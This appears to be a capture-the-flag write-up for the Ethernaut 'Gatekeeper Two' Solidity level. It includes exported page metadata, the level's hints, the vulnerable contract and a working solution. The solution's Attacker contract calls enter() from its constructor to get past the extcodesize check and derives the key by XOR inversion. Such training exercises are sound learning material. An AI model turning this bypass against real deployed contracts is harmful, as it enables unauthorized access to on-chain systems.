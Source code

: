 ```yaml
---
title: "Gatekeeper Two"
date: "2024-02-23"
lastmod: "2024-02-23T15:25:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
weight: 15
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/14"
next: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "d4a070f3-8b64-4143-a295-ecf4467fb7fa"
  created_time: "2024-02-23T12:55:00.000Z"
  last_edited_time: "2024-02-23T15:25:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel14.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-23"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 15
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/14"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Gatekeeper Two"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper Two"
          href: null
  url: "https://www.notion.so/Gatekeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
  public_url: null
UPDATE_TIME: "2024-02-23T22:49:44.253Z"
EXPIRY_TIME: "2024-02-23T23:49:39.370Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.


### Things that might help:

- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
- The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given
address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
- The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```


Evm op codes: [https://www.evm.codes/?fork=shanghai](https://www.evm.codes/?fork=shanghai)


![](/images/01b0d58a-bfc6-43bb-bfaf-44883de909fc.png)


![](/images/fca58f0b-c3a4-4025-9aef-756a0e94ff30.png)


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker,GatekeeperTwo} from "../src/14.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_14");

        vm.startBroadcast(deployerPrivateKey);
        GatekeeperTwo gate = GatekeeperTwo(addr);
        new Attacker(address(gate));
        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import "forge-std/console.sol";

interface GatekeeperTwo {
  function enter(bytes8 _gateKey) external returns (bool);
}

contract Attacker {
  GatekeeperTwo gatekeeper;

  constructor(address _gatekeeper) {
    gatekeeper = GatekeeperTwo(_gatekeeper);
    bytes8 value = bytes8(keccak256(abi.encodePacked(address(this))));
    bytes8 gateKey = ~value; 
    // gateKey ^ value == type(uint64).max
    gatekeeper.enter(gateKey);
  }
}
```

